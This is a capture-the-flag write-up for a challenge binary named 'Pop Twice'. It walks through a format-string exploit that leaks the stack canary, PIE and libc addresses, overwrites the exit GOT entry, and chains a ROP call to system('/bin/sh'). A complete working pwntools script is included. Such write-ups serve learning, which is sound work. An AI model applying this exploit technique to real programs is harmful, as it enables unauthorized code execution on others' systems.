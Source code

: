 # Pop Twice

The challenge file was given, an elf file checking the file propertise we could see it's a 64-bit ELF file, not stripped.

![1688625170436.png](./1688625170436.png)

let's try running the ELF file

![1688625218436.png](./1688625218436.png)

we could see it ask for input twice and print's out our input to us.

Decompiling the file in ghidra, we could see the decompiled source code:

![1688625411779.png](./1688625411779.png)

from the source code we could conclude that this is not our regular buffer overflow challenge, because for each input to the buffer there's a bound from the `fgets` function, `local_418` size is `512` and the max input is `0x200` which is `512` in decimal, simillar to `local_218`.

The only way to exploit this program is using the fomart string vulnerability, because our input stored in the buffer is printed right back to us.

Before going forward with the exploit let's run checksec on the ELF file to see the security mechanisms enabled on the file.

 ![1688626124389.png](./1688626124389.png)

we could see that `NX` and `PIE` bit is enabled, meaning we have non executable code in the stack and address layout randomization on the  ELF file respectively, we need to fuzz the ELF file and find some imortant address to bypass the security mechanism.

i wrote a simple bash fuzzer to perform this:

![1688627879663.png](./1688627879663.png)

running it we found the stack canary at index `43`

![1688627999666.png](./1688627999666.png)

we found `PIE` leak at index 139

![1688628475148.png](./1688628475148.png)

How do we know that's the `PIE` leak, this is true because main start at:

 ![1688628544895.png](./1688628544895.png)

`Libc` leak is found at index 137![1688628727909.png](./1688628727909.png)

having all this offset we could now proced with our exploit.

we could automate this using pwntools:

```python
# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 

```

we could now use the offsets found using gef to readjust the base address of the ELF files;

```python
## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")

```


let's now craft our shell payload to execute `/bin/sh`

```python

pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

```

using the fmtstr vulnerablity payload to reassign the `rip` pointer, we fuzz again to find the offset at which our input is stored on the stack, which is at index `70`,

using the offset we could reassing the `rip` to our payload.

the plan here to exploit this by saving our payload in the stack and running the program again and set our `rip` to where the payload is stored.

**How do we archive this ?**

we start the program and use the fmtstr vulnerability to get all necessay address to bypass the security mechanism, we then set `rip` back to main to run the program again this time we store the payload on the stack, after doing that we set the `rip` back to `pop_rdi_ret ` to run the content stored on the stack.

```python
fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()
```

Getting all this together we have:

```python
#!/usr/bin/python

from os import system
from pwn import *
from struct import pack

## settings
context.binary = exe =  ELF("./chall")


## initializing libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

## spawing process
p = process(exe.path)


s_arr1 = 512 # size of buff1
s_arr2 = 520 # size of buff2

# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 


## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")


pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

 
# using fmtstring vuln to call main again

fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()


# gdb.attach(p, f"""b * main+120
#                 init-gef
#                 got
#                 register
#                 c
#                 x/30wgx $rsp
#                 x/s {bin_sh}
#                 x/s {system_addr}
#                 x/i {pop_rdi_ret}""")

p.interactive()





```


Running the script we have our shell :

![1688631576538.png](./1688631576538.png)
